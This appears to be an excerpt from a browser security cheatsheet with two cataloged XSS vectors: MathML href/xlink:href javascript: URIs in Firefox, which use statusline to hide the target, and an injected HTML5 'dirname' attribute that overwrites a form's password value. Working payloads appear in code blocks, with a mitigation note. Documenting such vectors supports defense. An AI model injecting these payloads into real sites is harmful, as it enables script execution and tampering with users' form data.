 *   xss

*   javascript
*   html5
*   oninput
*   form
*   passive
*   event

reporter：Skyphire

### Passive JavaScript execution via MathML on Firefox#130test

Modern Firefox versions allow usage of inline MathML. While other user agents don't support the href attribute for MathML elements (yet), Firefox does and thereby enables passive JavaScript execution. Note that supporting href for MathML elements is a feature - introduced with MathML 3\. The same effect can be observed by using xlink:href. The statusline action further enables obfuscation of the actual link target - and in this example hides the JavaScript URI.

```
<math href="javascript:alert(1)">CLICKME</math> <math> <!-- up to FF 13 --> <maction actiontype="statusline#http://google.com" xlink:href="javascript:alert(2)">CLICKME</maction> <!-- FF 14+ --> <maction actiontype="statusline" xlink:href="javascript:alert(3)">CLICKME<mtext>http://http://google.com</mtext></maction> </math> 
```

Do not allow users to submit unfiltered MathML content.

*   firefox 6
*   firefox latest

*   mathml

*   xss
*   inline
*   firefox

*   [`www.w3.org/Math/`](http://www.w3.org/Math/)

*   [`bugzilla.mozilla.org/show_bug.cgi?id=534968`](https://bugzilla.mozilla.org/show_bug.cgi?id=534968)
*   #87

reporter：.mario, LeverOne

### Transparent overwriting of request-data using HTML5 "dirname" attributes#136test

Opera and Chrome support the HTML5 attribute "dirname", that can be used to have the browser communicate the text-flow direction of another input element by adding it to the server-sent request body. By injecting a "dirname" attribute in an existing form, an attacker can overwrite user input and thereby make it guessable for malicious purposes. The overwritten value would then be "ltr" or "rtl" - depending on the actual text-flow direction. The "dirname" attribute is not yet supported by Internet Explorer or Firefox.

```
<form action="" method="post"> <input name="username" value="admin" /> <input name="password" type="password" value="secret" /> <input name="injected" value="injected" dirname="password" /> <input type="submit"> </form> 
```
